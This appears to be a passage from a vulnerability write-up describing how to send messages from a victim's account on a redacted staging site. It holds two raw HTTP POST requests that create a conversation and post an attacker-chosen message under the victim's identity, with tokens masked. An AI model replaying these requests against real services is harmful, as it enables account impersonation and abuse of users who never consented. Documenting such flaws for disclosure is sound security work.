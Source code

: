 ### Sending messages from user's account to anyone (along with attachments) :

There are two scenarios for this section. First is about sending a message to anyone with whom the user never had the conversation, and the other section is about sending the message to someone with whom the user is already having a conversation.

To create a new conversation with anyone from user's account, replay the following request (replace `UID` with user's `accountPublicGuid` and replace `ACCOUNT-ID` with the `accountId` to whom you want user to send a message to) 

```http
POST /api/communication-service/conversation HTTP/1.1
Host: staging.vulnerable.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 445
Origin: https://staging.vulnerable.com
Authorization: bearer xxxxxxxxxxxxxxxxxxxxxxx
Connection: close
Cookie: 

{"createDate":"2021-10-30T15:41:53.697Z","createdBy":"UID","lastMessageCreatedBy":"UID","lastMessageDate":"2021-10-30T15:41:53.697Z","lastMessageId":null,"lastMessageText":"---","state":0,"participants":[{"accountId":"ACCOUNT-ID","createDate":null,"lastViewedMessageId":null,"profileImageUrl":null,"securityType":null,"username":null,"isAuthor":false}]}
```

Now in the response observe the first `id` value in the rendered JSON (This value would be the new conversation `id`) -:

![C](https://user-images.githubusercontent.com/58471667/230939216-e5ac39f1-4a6b-4e38-8107-68add73cd6b9.png)

Now use this newly generated conversationid in the below request to send a message (replace `UID` with user's `accountPublicGuid`) -:

```http
POST /api/communication-service/conversation/3a2c54d5-4706-4478-8965-da32256138fb/message HTTP/1.1
Host: staging.vulnerable.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 178
Origin: https://staging.vulnerable.com
Connection: close
Authorization: bearer xxxxxxxxxxxxxxxxx
Cookie: 

{"attachments":[],"createDate":"2021-10-30T15:43:49.837Z","createdBy":"UID","messageText":"","sid":"","message":"ATTACKER_MESSAGE_FROM_VICTIM_ACCOUNT"}
```
